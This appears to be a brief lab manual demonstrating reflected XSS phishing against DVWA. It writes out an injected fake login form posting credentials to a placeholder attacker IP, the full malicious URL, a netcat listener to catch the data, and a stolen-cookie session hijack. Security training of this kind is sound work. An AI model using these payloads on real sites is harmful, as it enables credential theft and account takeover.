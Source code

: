 # Manual

TODO: Demonstrate how XSS can be leveraged by an attacker.

### Phishing via XSS

```html
<h3>Login</h3>
<form action=http://<attacker_IP>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```

```html
http://dvwa.local/dvwa/vulnerabilities/xss_r/?name=<h3>Login</h3><form action=http://<attacker_IP> Username:<br><input type="username" name="username"></br> Password:<br><input type="password" name="password"></br> <br><input type="submit" value="Logon"></br>
```

```
$ sudo nc -lnvp 80
```

Open in debug console in any web browser in this case I'm using firefox.

```
document.cookie = "<cookie_session>"
```